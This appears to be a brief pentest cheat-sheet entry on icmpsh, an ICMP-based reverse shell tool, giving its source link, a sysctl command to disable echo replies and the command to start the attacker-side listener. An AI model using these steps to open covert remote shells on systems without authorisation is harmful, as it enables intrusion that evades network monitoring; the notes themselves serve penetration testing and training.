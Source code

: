 ### Soure 
https://github.com/bdamele/icmpsh  

### Disable echo reply
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

### Start listener
```
python2 icmpsh_m.py <lhost> <rhost>
```

